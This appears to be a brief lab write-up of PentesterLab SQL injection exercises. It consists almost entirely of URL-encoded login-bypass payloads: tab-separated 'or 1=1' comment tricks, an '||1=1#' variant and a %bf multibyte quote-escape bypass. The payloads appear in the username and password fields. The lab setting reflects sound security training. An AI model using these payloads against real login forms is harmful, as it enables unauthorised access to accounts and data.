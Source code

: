 # Pentesterlab SQL INJECTION

> Saikat Karmakar | AUG 27 : 2021

---

## SQL INJECTION

```
%09 -> %09
```
```
admin%27%09or%091%3D1%09--%09-%09&password=admin%27%09or%091%3D1%09--%09-%09
```

```
username=admin%27||1%3D1%23&password=acde
```

```
username=admin%bf%27||1%3D1%23--&password=admin%25bf%2527+or+1%3D1+--
```

